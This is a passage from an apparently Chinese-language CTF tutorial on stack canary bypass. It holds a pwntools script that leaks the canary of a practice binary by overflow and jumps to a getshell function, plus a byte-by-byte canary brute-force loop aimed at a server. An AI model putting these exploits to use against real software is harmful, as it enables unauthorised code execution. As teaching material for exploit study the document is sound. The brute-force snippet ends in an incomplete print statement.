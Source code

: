 	}
	```

	EXP

	```python
	#!/usr/bin/env python
	 
	from pwn import *
	 
	context.binary = 'ex2'#全局系统自动设置，为官方推荐设置，ex2为文件名称。
	#context.log_level = 'debug'#debug模式下才开启
	io = process('./ex2') #本地连接到ex2
	 
	get_shell = ELF("./ex2").sym["getshell"] #由于源码里有getshell函数，所以直接可以使用ELF模块找到getshell函数地址。
	 
	io.recvuntil("Hello Hacker!\n")#接受传来的第一部分字符
	 
	# leak Canary
	payload = "A"*100 
	io.sendline(payload) #传输100个A
	 
	io.recvuntil("A"*100)
	Canary = u32(io.recv(4))-0xa #因为cannary最后一位字节为00被0x0a覆盖，所以减去0x0a
	log.info("Canary:"+hex(Canary))#日志记录下canary
	 
	# Bypass Canary
	payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)#发送最后的payload
	io.send(payload)
	 
	io.recv()
	 
	io.interactive()
	```



- one-by-one 爆破 Canary

	```python
	print "[+] Brute forcing stack canary "
	
	start = len(p)
	stop = len(p)+8
	
	while len(p) < stop:
	   for i in xrange(0,256):
	      res = send2server(p + chr(i))
	
	      if res != "":
	         p = p + chr(i)
	         #print "\t[+] Byte found 0x%02x" % i
	         break
	
	      if i == 255:
	         print "[-] Exploit failed"
	         sys.exit(-1)
	
	
	canary = p[stop:start-1:-1].encode("hex")
	print "   [+] SSP value is 0x%s" %
	```



- canary劫持__stack_chk_fail 函数

- 覆盖 TLS 中储存的 Canary 值

